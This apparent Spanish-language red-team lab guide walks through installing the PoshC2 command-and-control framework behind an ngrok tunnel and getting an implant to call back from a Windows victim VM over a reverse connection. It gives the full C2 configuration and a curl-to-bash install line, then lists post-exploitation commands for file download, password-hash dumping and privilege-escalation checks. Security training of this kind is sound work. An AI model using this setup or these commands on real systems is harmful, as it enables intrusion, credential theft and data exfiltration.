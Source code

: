 ## Lab3: C2 - PoshC2
![image](https://user-images.githubusercontent.com/50930193/180666195-537fb36c-88bf-4926-b0d4-fc18e36b06ab.png)

**Descripción**

El laboratorio tiene por objetivo, establecer un Centro de Comando y Control (C2) basado en PoshC2, ejecutar comandos de obtención de información post explotación 

- Para el desarrollo del laboratorio se requiere que el participante instale el PoshC2 siguiendo las indicaciones o desde la página oficial: https://poshc2.readthedocs.io/en/latest/
- Como víctima, se debe crear una instancia en AWS con sistema operativo Windows7 o Windows Server 2012R2 y estar dentro del dominio RTOOS.NET. **La instancia debe estar conectado a la vpn pública.**


### SOLUCIÓN:

- **Pre-requisito** (Tener Kali actualizado) si no se podrían presentar errores de dependencias:

   ```
   # Instalación en Kali 
   
   $ sudo apt update && sudo apt -y full-upgrade -y
   ```

- **Instalación** Instalar PoshC2 en el equipo que ejecuta Kali Linux mediante la siguiente línea de comandos :

   ```
   # Instalación en Kali (disponible desde el 14 de Julio del 2022): 
   $ sudo apt install posch c2
   
   # Instalación de manera local: 
   $ curl -sSL https://raw.githubusercontent.com/nettitude/PoshC2/master/Install.sh | sudo bash

   # Instalación en docker:
   $ apt install docker docker.io
   ```
   
- Instalar las dependiencias y configurar lo necesario para ejecutar el C2

    
- Cuando todo esté instalado correctamente, confgurar el servidor C2, considerando ngrok como proxy o tunnel 
- En el parametro PayloadCommsHost se deberá  reemplazar por la url de ngrok
   ```
   # ngrok http 8080
   ```
      
- Para configurar el PoshC2 ejecutar: `posh-config`

  Ejemplo de configuración de PoshC2:

```
  # These options are loaded into the database on first run, changing them after
  # that must be done through commands (such as set-defaultbeacon), or by
  # creating a new project

  # Server Config
  BindIP: '0.0.0.0'
  BindPort: 8080

  # Database Config
  DatabaseType: "SQLite" # or Postgres
  PostgresConnectionString: "dbname='poshc2_project_x' port='5432' user='admin' host='192.168.111.111' password='XXXXXXX'" # Only used if Postgres in use

  # Payload Comms
  PayloadCommsHost: "http://f3a1-2001-1388-70c5-cc21-cd1d-168c-c3ae-7880.ngrok.io" # "https://www.domainfront.com:443,https://www.direct.com"
  DomainFrontHeader: ""  # "axpejfaaec.cloudfront.net,www.direct.com"
  Referrer: ""  # optional
  ServerHeader: "Apache"
  UserAgent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36"  # This should be updated to match the environment, this is Chrome on 2020-03-2

  DefaultSleep: "5s"
  Jitter: 0.20
  KillDate: "2999-12-01"  # yyyy-MM-dd
  UrlConfig: "urls" # Beacon URLs will be taken from resources/urls.txt if value is 'urls'. If value is 'wordlist' beacon URLs will be randomly generated on server creation from resources/wordlist.txt

  # Payload Options
  PayloadStageRetries: true
  PayloadStageRetriesInitialWait: 60 # Stager will retry after this many seconds, doubling the wait each time if it fails
  PayloadStageRetriesLimit: 30 # Stager retry attempts before failing
  DefaultMigrationProcess: "C:\\Windows\\system32\\netsh.exe"  # Used in the PoshXX_migrate.exe payloads
  PayloadDomainCheck: "" # If non-empty then the UserDomain on the target will be checked and if it 'contains' this value then the payload will execute, else it will not.

  # Notifications Options
  NotificationsProjectName: "PoshC2"
  EnableNotifications: "No"

  # Pushover - https://pushover.net/
  Pushover_APIToken: ""
  Pushover_APIUser: ""

  # Slack - https://slack.com/
  Slack_BotToken: "" # The token used by the application to authenticate. Get it from https://[YourSlackName].slack.com/apps/A0F7YS25R (swap out [YourSlackName]). Should start with xobo-.
  Slack_UserID: "" # Found under a users profile (i.e UHEJYT2AA). Can also be "channel". 
  Slack_Channel: "" # i.e #bots

  # SOCKS Proxying Options
  SocksHost: "http://127.0.0.1:49031"

  # PBind Options
  PBindPipeName: "jaccdpqnvbrrxlaf"
  PBindSecret: "mtkn4"

  # FComm Options
  FCommFileName: "C:\\Users\\Public\\Public.ost"
```

- En una ventana de terminal ejecutar el servidor : 
     ```
     posh-server
     ```
     
- En otra ventana o pestaña de terminal ejecute el cliente o Implant Manager : 
     ```
     posh
     ```
     
  Le solicitará colocar un nombre de usuario.


- Para efectos de este laboratorio, el instructor ejecutará un payload que permitirá desplegar un implante que generará una conexión reversa hacia el PoshC2 Server o el participante puede tener acceso al host victima para realizar la transferncia del implante.

- Una alternativa para la transferencia del payload es utilizar un servidor web creado en la carpeta donde se almacenan los implantes (/opt/PoshC2_Project/payloads) :

```
    python -m SimpleHTTPServer 80
```
  	
- De forma ordenada, el participante deberá comunicar al instructor su dirección IP para que él descargue y ejecute el payload desde la maquina victima. De esta forma, recibirá una conexión reversa en su PoshC2 Server y tendrá su primer implante establecido.

- Otra opción es ejecutar el comando de powershell en base 64.

- En el Implant Handler y en la consola del C2 Server se podrá ver la información del implante que se ha conectado y esta disponible.

- Para interactuar con ese implante desde el Implant Handler, seleccionar el implante por su ID (verifique que sea el que corresponda al mismo que apareció en la consola del C2 Server).

- Ejecute algunos o todos los siguientes comandos además del comando help que le permitirá conocer lo que incluye Posch C2 Server por default :

```
    ls
    pwd
    get-implantworkingdirectory
    cd c:\users\xxxx 
    download-file Tropheo.txt
    get-computerinfo
    get-netstat
    get-pid
    ps
    find-allvulns
    invoke-allchecks
    get-MpPreference
    Get-LocalGroupMember Administrators
    get-hash
    loadmodule SeatBealt.ps1
    seatbelt
```
    
- Antes de culminar, vuelva al primer nivel del Implant Manager para obtener información del C2 Server y un reporte de actividades :

```
    back
    show-serverinfo
    generate-reports
```
    


*============FIN DE DOCUMENTO===============*




